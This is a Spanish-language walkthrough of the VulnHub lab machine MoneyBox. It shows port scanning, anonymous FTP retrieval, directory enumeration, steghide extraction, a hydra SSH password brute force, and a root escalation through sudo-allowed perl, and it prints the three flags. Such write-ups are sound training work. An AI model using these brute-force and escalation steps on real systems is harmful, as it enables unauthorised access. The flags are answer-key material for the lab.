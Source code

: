 ```yaml
---
icon: flag
---
```


# MoneyBox VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 03:22 EDT
Nmap scan report for 192.168.195.144
Host is up (0.00052s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.195.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0         1093656 Feb 26  2021 trytofind.jpg
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1e:30:ce:72:81:e0:a2:3d:5c:28:88:8b:12:ac:fa:ac (RSA)
|   256 01:9d:fa:fb:f2:06:37:c0:12:fc:01:8b:24:8f:53:ae (ECDSA)
|_  256 2f:34:b3:d0:74:b4:7f:8d:17:d2:37:b1:2e:32:f7:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: MoneyBox
MAC Address: 00:0C:29:88:87:78 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms 192.168.195.144

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.57 seconds
```

### ftp

```shell
ftp anonymous@<IP>
```

```shell
get trytofind.jpg
```

Nos descargamos ese `.jpg`, lo utilizaremos mas adelante...

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x php,html,txt -t 50 -r -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.195.144/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.php        (Status: 403) [Size: 280]
/.htpasswd.txt        (Status: 403) [Size: 280]
/.htaccess.txt        (Status: 403) [Size: 280]
/.htaccess.html       (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htpasswd.html       (Status: 403) [Size: 280]
/.htpasswd.php        (Status: 403) [Size: 280]
/blogs                (Status: 200) [Size: 353]
/index.html           (Status: 200) [Size: 621]
/server-status        (Status: 403) [Size: 280]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Si nos vamos a `/blogs/` e inspeccionamos el codigo veremos un comentario que dice lo siguiente....

```html
<!--the hint is the another secret directory is S3cr3t-T3xt-->
```

Por lo que leemos parece que hay un archivo llamado `S3cr3t-T3xt` que si lo ponemos en la `URL`...

```
URL = http://<IP>/S3cr3t-T3xt/
```

Si inspeccionamos la pagina veremso otro comentario que dice lo siguiente...

```html
<!..Secret Key 3xtr4ctd4t4 >
```

Y eso sera la contraseña del salvoconducto para el siguiente comando...

```shell
steghide extract -sf trytofind.jpg
```

Poniendo como salvoconducto esa clave que encontramos nos extraera un archivo llamado `data.txt` que si lo leemos pondra lo siguiente...

```
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

Ya sabemos que el usuario es `renu` por lo que tiraremos un `hydra`...

```shell
hydra -l renu -P <WORDLIST> ssh://192.168.195.144 -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-28 04:43:54
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.195.144:22/
[22][ssh] host: 192.168.195.144   login: renu   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-28 04:44:15
```

> Credentials

```
User = renu
Password = 987654321
```

Por lo que nos conectamos por `ssh`...

```shell
ssh renu@<IP>
```

Una vez dentro leemos la flag...

> user1.txt

```
Yes...!
You Got it User1 Flag

 ==> us3r1{F14g:0ku74tbd3777y4}
```

Depues leemos la segunda flag ubicada en `/home/lily`...

> user2.txt (flag2)

```
Yeah.....
You Got a User2 Flag

==> us3r{F14g:tr5827r5wu6nklao}
```

Si vamos al `.ssh` del usuario `lily` vemos que solo esta el archivo llamado `authorized_keys` y por lo que vemos no esta el `id_rsa` privado ni publico, por lo que nos podremos conectar al usuario `lily` sin contraseña dentro de la maquina...

```shell
ssh lily@<IP>
```

Pero ese comando dentro de la maquina, no desde nuestro `host`...

Si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for lily on MoneyBox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: /usr/bin/perl
```

Vemos que podemos ejecutar `perl` como `root` por lo que tendremos que hacer lo siguiente para ser `root`....

```shell
sudo perl -e 'exec "/bin/sh";'
```

Con esto ya seremos `root`, por lo que leeremos la flag...

> .root.txt (flag3)

```
Congratulations.......!

You Successfully completed MoneyBox

Finally The Root Flag
    ==> r00t{H4ckth3p14n3t}

I'm Kirthik-KarvendhanT
    It's My First CTF Box
         
instagram : ____kirthik____

See You Back....
```
